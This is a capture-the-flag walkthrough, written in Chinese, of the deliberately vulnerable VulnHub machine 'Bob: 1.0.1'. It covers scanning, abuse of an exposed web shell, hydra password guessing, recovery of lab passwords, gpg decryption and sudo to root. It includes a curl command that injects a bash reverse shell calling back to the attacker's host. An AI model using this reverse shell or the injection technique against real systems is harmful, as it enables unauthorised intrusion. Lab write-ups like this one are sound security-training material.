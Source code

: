 # Bob: 1.0.1

2025.03.01 https://www.vulnhub.com/entry/bob-101,226/

[video](https://www.bilibili.com/video/BV1LuXQYVEzm/?spm_id_from=333.1387.collection.video_card.click&vd_source=aed2f374c732513d2e535afafb1fd2ec)

## Ip

192.168.5.40

## Scan

```
PORT      STATE SERVICE
80/tcp    open  http
25468/tcp open  unknown
```

先看 80 扫描到 http://192.168.5.40/robots.txt：

```
Disallow: /login.php
Disallow: /dev_shell.php
Disallow: /lat_memo.html
Disallow: /passwords.html
```

挨个看一下，login.php 访问是 404，dev_shell.php 显示了一个执行命令的页面，可以执行命令，进行反弹 shell 到 kali 上：

```
nc -lvnp 8888
curl --data-urlencode 'in_command=/bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.5.3/8888 0>&1"' http://192.168.5.40/dev_shell.php
```

读取到提示，寻找隐藏文件：

```
www-data@Milburg-High:/var/www/html$ cat .hint
Have you tried spawning a tty shell?
Also don't forget to check for hidden files ;)
```

进行枚举，发现这个用户的目录下有文件：

```
www-data@Milburg-High:/home/elliot$ cat theadminisdumb.txt
The admin is dumb,
In fact everyone in the IT dept is pretty bad but I can’t blame all of them the newbies Sebastian and James are quite new to managing a server so I can forgive them for that password file they made on the server. But the admin now he’s quite something. Thinks he knows more than everyone else in the dept, he always yells at Sebastian and James now they do some dumb stuff but their new and this is just a high-school server who cares, the only people that would try and hack into this are script kiddies. His wallpaper policy also is redundant, why do we need custom wallpapers that doesn’t do anything. I have been suggesting time and time again to Bob ways we could improve the security since he “cares” about it so much but he just yells at me and says I don’t know what i’m doing. Sebastian has noticed and I gave him some tips on better securing his account, I can’t say the same for his friend James who doesn’t care and made his password: Qwerty. To be honest James isn’t the worst bob is his stupid web shell has issues and I keep telling him what he needs to patch but he doesn’t care about what I have to say. it’s only a matter of time before it’s broken into so because of this I have changed my password to

theadminisdumb

I hope bob is fired after the future second breach because of his incompetence. I almost want to fix it myself but at the same time it doesn’t affect me if they get breached, I get paid, he gets fired it’s a good time.
```

提到 2 个密码 Qwerty 和 theadminisdumb ，发现了几个用户 bob、elliot、jc、seb ，进行 hydra 测试，发现 elliot 密码是 theadminisdumb ， jc 的密码是 Qwerty

在 bob 目录中又发现了密码提示：

```
jc@Milburg-High:/home/bob$ cat .old_passwordfile.html
<html>
<p>
jc:Qwerty
seb:T1tanium_Pa$$word_Hack3rs_Fear_M3
</p>
</html>
```

但是这些密码都没什么用，其他的提权方式都没有。

在看 bob 目录中，发现一个 notes 文件：

```
seb@Milburg-High:/home/bob/Documents/Secret/Keep_Out/Not_Porn/No_Lookie_In_Here$ cat notes.sh
#!/bin/bash
clear
echo "-= Notes =-"
echo "Harry Potter is my faviorite"
echo "Are you the real me?"
echo "Right, I'm ordering pizza this is going nowhere"
echo "People just don't get me"
echo "Ohhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhh <sea santy here>"
echo "Cucumber"
echo "Rest now your eyes are sleepy"
echo "Are you gonna stop reading this yet?"
echo "Time to fix the server"
echo "Everyone is annoying"
echo "Sticky notes gotta buy em"
```

里面没看出什么信息，首字母都大写，把信息提取出来 HARPOCRATES ，在 Documents 中发现了一个 login.txt.gpg 文件，需要进行解密：

```
gpg --batch --passphrase HARPOCRATES -d login.txt.gpg
```

得到密码 `bob:b0bcat_` 切换到 bob 用户，sudo -l 显示 ALL，拿下了 root 权限。
